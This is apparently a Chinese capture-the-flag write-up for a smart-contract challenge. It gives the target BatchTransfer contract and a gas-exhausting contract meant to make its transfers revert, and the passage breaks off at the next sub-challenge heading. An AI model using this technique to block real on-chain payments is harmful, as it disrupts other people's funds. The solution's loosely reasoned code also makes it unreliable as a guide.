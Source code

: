 ### 链上转账助手

> 智能合约好久没做了有点手生，本菜对智能合约也不熟

输入一个合约的bytecode，然后对面会发起十个发送给None的transaction，执行这个合约然后获取合约地址作为转账对象。最后再给这十个合约地址，调用它自己的合约（题目附件）转账。

三个题都是要最后这个转账失败才能拿flag。

#### 转账失败

转账合约

```solidity
contract BatchTransfer {
    function batchTransfer(address payable[] calldata recipients, uint256[] calldata amounts) external payable {
        require(recipients.length == amounts.length, "Recipients and amounts length mismatch");

        uint256 totalAmount = 0;
        uint256 i;

        for (i = 0; i < amounts.length; i++) {
            totalAmount += amounts[i];
        }

        require(totalAmount == msg.value, "Incorrect total amount");

        for (i = 0; i < recipients.length; i++) {
            recipients[i].transfer(amounts[i]);
        }
    }
}
```

然后我们要让这个合约失败，于是我们写一个合约，让它消耗掉所有的gas。

```solidity
contract BatchTransfer {
    function approve(address payable recipient, uint256 amount) external payable {
        uint256 totalAmount = 0;
        uint256 i;

        for (i = 0; i < (1 << 128); i++) {
            for (i = 0; i < (1 << 128); i++) {
                totalAmount += amount;
            }
            totalAmount += amount;
        }
    }
}
```

运行它的compile，然后把bytecode给对面，然后就能拿到flag了。

### 转账又失败

